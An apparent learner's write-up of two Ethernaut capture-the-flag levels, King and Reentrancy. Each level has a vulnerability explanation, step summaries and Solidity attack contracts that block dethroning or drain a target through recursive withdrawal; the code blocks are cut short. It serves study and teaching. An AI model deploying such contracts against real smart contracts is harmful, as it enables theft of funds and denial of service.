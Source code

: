    Vulnerability Concept: 
Denial of Service via failing `.transfer()` — the contract assumes the king can always receive Ether.

 Exploit Mechanism:
Deploy a contract with no `receive()` or one that explicitly `revert()`s on receiving Ether. This makes the King contract unable to send Ether to the new king, locking the throne permanently.

 Real-World Example: 
This is a textbook DoS case — relying on `.transfer()` in smart contracts can break if the recipient reverts (e.g., Gnosis Safe in early versions).

 My Attack Summary (in 2–3 steps):
1. Deployed a contract that calls the King contract with > prize.
2. That contract becomes king, but reverts on further ETH.
3. Ethernaut can no longer dethrone it — challenge passes.

 Solidity Snippet I Learned:
```solidity
contract KingBlocker {
    constructor(address target) payable {
        (bool success,) = target.call{value: msg.value}("");
        require(success, "Failed to become king");
    }

    // Revert any ETH sent in the future
    receive() external payable {
        revert("Can't dethrone me.");
    }
```

---

###  10.Reentrancy

   Vulnerability Concept: 
Classic reentrancy — contract sends Ether before updating state (`balances[msg.sender]`), allowing recursive withdrawal.

 Exploit Mechanism:
Create a contract that donates ETH and triggers `withdraw()`. In the `receive()` function, recursively call `withdraw()` again before the balance is updated.

 Real-World Example: 
Similar to TheDAO hack in 2016 — reentrancy remains one of the most dangerous vulnerabilities if not mitigated with `checks-effects-interactions` or `ReentrancyGuard`.

 My Attack Summary (in 2–3 steps):
1. Wrote a contract that donates ETH to Reentrance.
2. Called `withdraw()` with `msg.value` stored as state.
3. On receiving ETH, re-entered until Reentrance was drained.

 Solidity Snippet I Learned:
```solidity
contract ReentrancyAttack {
    Reentrance public reentrancy;
    uint public attackAmount;

    constructor(address payable _target) public {
        reentrancy = Reentrance(_target);
    }

    function attack() public payable {
        require(msg.value > 0, "Need ETH");
        attackAmount = msg.value;
        reentrancy.donate{value: msg.value}(address(this));
        reentrancy.withdraw(msg.value);
    }
```